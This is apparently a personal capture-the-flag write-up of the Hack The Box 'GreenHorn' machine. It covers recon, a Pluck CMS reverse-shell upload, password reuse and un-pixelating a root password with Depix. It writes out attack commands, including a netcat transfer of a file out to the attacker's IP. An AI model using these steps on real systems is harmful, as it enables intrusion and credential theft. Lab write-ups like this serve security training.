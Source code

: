 
2024-08-13 16:34

Source:  #htb #Boot2root 

Tags: [[Linux]]
### Reconnaissance 

[[nmap]] scan tells us we have 5 ports open 
```
nmap -sS -p- -n -Pn -A --min-rate=9362 $IP
```
- `sS`: This option specifies a `SYN` scan  
- `-p-`: This option tells `nmap` to scan all `65,535` ports.  
- `-n`: This option is speeds up the scan by avoiding `DNS` resolution.  
- `-Pn`: This option disables host discovery, treating all hosts as online. This is useful for scanning hosts that may be blocking `ICMP` ping requests.  
- `--min-rate=9362`: This option sets the minimum number of packets per second to be sent during the scan. This speeds up the scan but may increase the likelihood of being detected by security systems.   
- `-A`: This option enables OS detection, version detection, script scanning, and traceroute.
```
http-title: Did not follow redirect to [http://greenhorn.htb/](http://greenhorn.htb/)
```
indicates that the HTTP service running on port 80 is configured to redirect requests to `[http://greenhorn.htb](http://greenhorn.htb/)` . However `nmap` did not follow this redirect because it doesn't resolve the `greenhorn.htb` domain name

Add an entry to your `/etc/hosts` file to map the `greenhorn.htb` domain to the IP address of the target machine

The URL parameter `file` might be used to include files on the server-side. This can potentially be exploited for Local File Inclusion (LFI) if the parameter is not properly sanitized. but this doesn't work
### Enumeration

original website served at `http://greenhorn.htb` doesn't give any hints therefore we try connecting to a different port `http://greenhorn.htb:3000` here the website served has a repo containing files of the website at the original address

on searching around a little we find that we have a password file in the `data/settings` directory. we check `data` cause `robots.txt` says not to.
we also find a `login.php` file, that doesn't take a username and the password is what we found hashed in the repo before
### Pluck CMS exploit

on logging in we find the version number, we find a [[RCE]] exploit for this on `exploitdb`
the exploit says that we can get `revshell` by uploading a zip file in the install module page of the application 
download a `php` `revshell` from `pentestmonkey` and zip it using 
```shell
zip phprevshell.zip phprevshell.php
```
### Privilege Escalation 

after getting a shell we see there is a directory name junior in the home directory that we can't access thereby suggesting that there might be a user named junior.
to check the files the junior owns use [[find]]
```bash
find / -type f -user junior 2>/dev/null
```
`su junior` to login as junior use the hashed password we found before. 

> **Remember to try out previously found passwords to login** 

along with the user.txt we also have a pdf that we can't open on that machine so we need to transfer that file to our system 
#### File transfer
##### [[File transfer]] using [[Python]]

on pwnbox - 
```python 
python3 -m http.server 3333
```
on local kali
```bash
wget greenhorn.htb:3333/openvas.pdf
```
##### File Transfer using [[netcat]]

on local kali
```bash
nc -lvp 1234 > 'Using OpenVAS.pdf'
```
on pwnbox
```shell
nc 10.10.16.102 1234 < 'Using OpenVAS.pdf'
```
here the IP is your machines tun0 IP

to open the pdf file that has quotes use eg- `'OpenVAS.pdf'`
```shell
ll Using\ OpenVAS.pdf
```

the pdf contains some instructions to login as root but the password is blurred, it is blurred image of the password pasted on top of the pdf 
to 
#### Extract image form the pdf  
##### Method 1
```
pdfimages "./Using OpenVAS.pdf" greenhorn
```
##### Method 2
[Extract PDF images - quick, online, free - PDF24 Tools](https://tools.pdf24.org/en/extract-images)

to clean the blurred image use `Depix` tool [[stego]]
```
python3 depix.py \
    -p /path/to/your/input/image.png \
    -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png \
    -o /path/to/your/output.png
```
after a while we get the password of the root user

### References
https://app.hackthebox.com/machines/GreenHorn

DEPIX - [GitHub - spipm/Depix: Recovers passwords from pixelized screenshots](https://github.com/spipm/Depix)

Walkthrough -->
[GreenHorn Hack the Box Walkthrough | by Ibrahim Isiaq Bolaji | Jul, 2024 | Medium](https://medium.com/@ibrahimbolaji50.ib/greenhorn-hack-the-box-walkthrough-2bdd839c4177)

[HackTheBox - GreenHorn CTF | by Zain | Jul, 2024 | Medium](https://medium.com/@3zain21/hackthebox-greenhorn-ctf-c2bc9c744951)
